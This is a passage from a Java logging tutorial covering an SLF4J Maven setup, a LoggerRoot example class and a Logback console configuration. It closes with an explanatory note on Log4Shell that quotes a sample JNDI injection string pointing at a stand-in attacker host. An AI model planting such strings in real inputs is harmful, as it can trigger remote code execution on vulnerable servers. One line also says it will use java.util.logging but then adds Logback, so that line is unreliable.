 Let’s jump straight into a logging example, starting with the initial setup of our application. Since our project uses Maven as the dependency manager, we’ll introduce and explain the required dependencies as they become relevant.

pom.xml
```xml
<?xml version="1.0" encoding="UTF-8"?>
<project xmlns="http://maven.apache.org/POM/4.0.0"
         xmlns:xsi="http://www.w3.org/2001/XMLSchema-instance"
         xsi:schemaLocation="http://maven.apache.org/POM/4.0.0 http://maven.apache.org/xsd/maven-4.0.0.xsd">
    <modelVersion>4.0.0</modelVersion>
 
    <groupId>com.jcg</groupId>
    <artifactId>slf4j</artifactId>
    <version>1.0-SNAPSHOT</version>
 
    <dependencies>
        <dependency>
            <groupId>org.slf4j</groupId>
            <artifactId>slf4j-api</artifactId>
            <version>1.7.25</version>
        </dependency>
    </dependencies>
 
    <build>
        <plugins>
            <plugin>
                <groupId>org.apache.maven.plugins</groupId>
                <artifactId>maven-compiler-plugin</artifactId>
                <version>3.6.1</version>
                <configuration>
                    <source>1.8</source>
                    <target>1.8</target>
                </configuration>
            </plugin>
        </plugins>
    </build>
 
</project>

```

- We specify slf4j-api as dependency, maven downloads the SLF4J dependency in our classpath to enable the logging interface.
- Single SLF4J dependency is enough for us to get started with logging. Now we will create a simple class for logging.

```java
import org.slf4j.Logger;
import org.slf4j.LoggerFactory;
import java.lang.invoke.MethodHandles;
import java.util.stream.IntStream;
public class LoggerRoot {
    private static final Logger logger = LoggerFactory.getLogger(MethodHandles.lookup().lookupClass().getSimpleName());

    public static void main(String... args) {
        IntStream.rangeClosed(1, 10).forEach(counter -> {
            logger.info("Counter:" + counter);
        });

    }

}
```

We import **Logger** and **LoggerFactory** from SLF4J for logging purposes. The **LoggerFactory** provides factory methods to create and initialize loggers appropriate for the application’s use case. The logger returned by the factory is then used to log messages in the application.

In the provided example, we use the **LoggerFactory.getLogger()** method to initialize the logger. This method requires a name for the logger, which is typically the class name where the logger is used. Instead of hardcoding the class name, we use the **Java Core API's `MethodHandles.lookup()`** to dynamically retrieve the current class name. This approach ensures accuracy and avoids the need to manually specify the class name, reducing the risk of errors when copying and pasting code across different classes.

The expression `MethodHandles.lookup().lookupClass().getSimpleName()` retrieves the simple name of the current class dynamically. This is an improvement over manually specifying `LoggerRoot.class.getName()`, as it eliminates the possibility of mismatched logger names if the class name changes or if the code is reused in other classes.

![](Images/Image_2.png)

Now we will provide a logging framework implementation. We will use first `java.util.logging`. To enable this, We need to include it as a dependency.

```xml
<dependency>
	<groupId>ch.qos.logback</groupId>
	<artifactId>logback-classic</artifactId>
	<version>1.3.0-alpha4</version>
	<exclusions>
		<exclusion>
			<artifactId>slf4j-api</artifactId>
			<groupId>org.slf4j</groupId>
		</exclusion>
	</exclusions>
</dependency>
<dependency>
	<groupId>ch.qos.logback</groupId>
	<artifactId>logback-core</artifactId>
	<version>1.3.0-alpha4</version>
</dependency>

```

We have defined logback as the runtime dependency. SLF4J will pick up logback as the logging implementation. We will add the `logback configuration` to log the output to the console.

```xml
<configuration>
 
    <appender name="console" class="ch.qos.logback.core.ConsoleAppender">
        <target>System.out</target>
        <encoder>
            <pattern>%d{HH:mm:ss.SSS} [%thread] %-5level %logger{36} - %msg%n</pattern>
        </encoder>
    </appender>
    <root level="info">
        <appender-ref ref="console"/>
    </root>
 
</configuration>

```

- We create a console appender with the target as System.Out.
- W use PatternLayoutEncoder and provide a pattern containing the class name and logger name.
- We specify the level as INFO and tie the appender to root logger.

![](Images/Image_3.png)


Note:

The **Log4j vulnerability (Log4Shell)**, identified as **CVE-2021-44228**, was a critical security flaw in the Apache Log4j library, allowing **Remote Code Execution (RCE)**. It exploited the **JNDI lookup feature**, where attackers could inject malicious strings like `${jndi:ldap://attacker.com/a}` into logs, prompting Log4j to fetch and execute code from external servers. This made applications using vulnerable Log4j versions (2.0 to 2.14.1) highly susceptible to attacks through user-controlled inputs.

To mitigate, the Log4j team released updates to disable and eventually remove JNDI lookups in versions 2.15.0, 2.16.0, and later. Immediate workarounds included disabling lookups with `-Dlog4j2.formatMsgNoLookups=true` or removing the `JndiLookup` class. This incident highlighted the importance of secure logging practices, timely dependency updates, and proactive vulnerability management.

**Logback** is another popular Java-based logging framework, developed by the same creator as Log4j. It serves as the successor to Log4j 1.x and is widely used in modern applications, especially with the **SLF4J** (Simple Logging Facade for Java) API. Here's how it compares to Log4j and its security implications: